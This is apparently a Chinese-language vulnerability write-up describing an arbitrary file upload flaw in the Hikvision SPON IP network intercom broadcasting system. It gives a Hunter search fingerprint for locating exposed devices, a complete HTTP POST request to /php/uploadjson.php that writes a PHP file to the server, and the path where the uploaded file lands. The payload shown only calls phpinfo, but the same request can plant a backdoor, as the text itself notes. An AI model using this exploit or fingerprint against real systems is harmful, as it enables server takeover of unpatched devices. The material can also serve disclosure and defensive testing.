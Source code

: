 # 海康威视SPON IP网络对讲广播系统uploadjson存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统my_parser存在任意文件上传漏洞，恶意攻击者可能会上传恶意的后门文件，使服务器失陷。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/09hL4VLsS-pV3aEb/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-455066.png)

# 四、漏洞复现
```java
POST /php/uploadjson.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

jsondata[filename]=111.php&jsondata[data]=<?php phpinfo();?>
```

![1704870723907-3a79bc40-1174-49ae-86cc-f54a7fc7d35a.png](./img/09hL4VLsS-pV3aEb/1704870723907-3a79bc40-1174-49ae-86cc-f54a7fc7d35a-772590.png)

上传文件位置

```java
/lan/111.php
```

![1704870773380-20e41fa5-0e94-4700-a7e1-9e7a2cbca2e3.png](./img/09hL4VLsS-pV3aEb/1704870773380-20e41fa5-0e94-4700-a7e1-9e7a2cbca2e3-143365.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/riyq6veg7akk2qpx>
